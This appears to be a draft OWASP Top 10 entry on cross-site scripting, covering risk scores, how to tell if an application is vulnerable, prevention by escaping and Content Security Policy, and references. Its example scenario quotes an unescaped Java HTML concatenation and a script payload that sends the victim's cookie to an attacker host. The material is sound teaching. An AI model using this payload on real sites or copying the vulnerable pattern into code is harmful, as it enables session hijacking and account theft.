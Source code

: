 # A7 Cross Site Scripting

| Factor | Score | Description |
| -- | -- | -- |
| Threat agent | ? | The threat agent is app specific, and depends on access, motive, and goals against the data asset. |
| Exploitability | EASY (3) | Automated tools can exploit all three forms of XSS, and there are freely available exploitation frameworks. |
| Prevalence | WIDESPREAD (3) | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. |
| Detectability | EASY (3) | XSS can be discovered by SAST and DAST tools, as well as anyone with a browser. |
| Impact | MODERATE (2) | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |
| Business impacts | ? | The business impact is application specific, and depends on the classification and protection needs of your application and data. |
| Score | 6.0 | MEDIUM |

## Am I vulnerable to attack?

You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don't use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.

Automated tools can find some XSS problems automatically. 
However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. 
This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. 
Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.

## How do I prevent

Preventing XSS requires separation of untrusted data from active browser content.

1. Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve [Server XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Server_XSS) vulnerabilities. The [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.

2. Applying context sensitive encoding when modifying the browser document on the client side acts against [client XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting#Client_XSS). When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).

3. Enabling a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) (CSP) and moving inline javascript code to additional files will defend against XSS across the entire site, assuming no other vulnerabilities (such as upload path tampering or download path traversal) exist that would allow placing malicious code in the server files.

## Example Scenarios

The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

The attacker manipulates the 'CC' parameter in his browser to:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

This attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session. 
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See 2017-A8 for information on CSRF.

## References

### OWASP
* [OWASP Proactive Controls - TBA]()
* [OWASP Application Security Verification Standard - TBA]()
* [OWASP Testing Guide: 1st 3 Chapters on Data Validation Testing]()
* OWASP Types of Cross-Site Scripting
* OWASP XSS Prevention Cheat Sheet
* OWASP DOM based XSS Prevention Cheat Sheet
* OWASP XSS Filter Evasion Cheat Sheet
### External
* CWE Entry 79 on Cross-Site Scripting
* Do we have a non-vendor reference for this? [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
